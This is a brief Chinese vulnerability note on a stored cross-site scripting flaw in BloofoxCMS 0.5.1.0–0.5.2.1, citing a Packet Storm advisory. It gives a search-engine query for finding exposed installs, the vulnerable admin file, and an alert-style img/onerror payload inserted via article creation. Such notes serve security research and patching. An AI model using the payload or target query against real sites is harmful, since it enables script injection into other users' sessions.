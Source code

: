 # 

# BloofoxCMS 0.5.2.1 存储型XSS

## 漏洞描述

参考链接：

- https://packetstormsecurity.com/files/161195

## 漏洞影响

```
BloofoxCMS 0.5.1.0 -.5.2.1
```

## 网络测绘

```
app="BloofoxCMS"
```

## 漏洞复现

漏洞文件：

```
/admin/include/inc_content_articles.php
```

登录有效的账号，在添加文章的时候插入Payload发布，每次访问均可触发：

```
<img src=# onerror=alert('xss')>
```


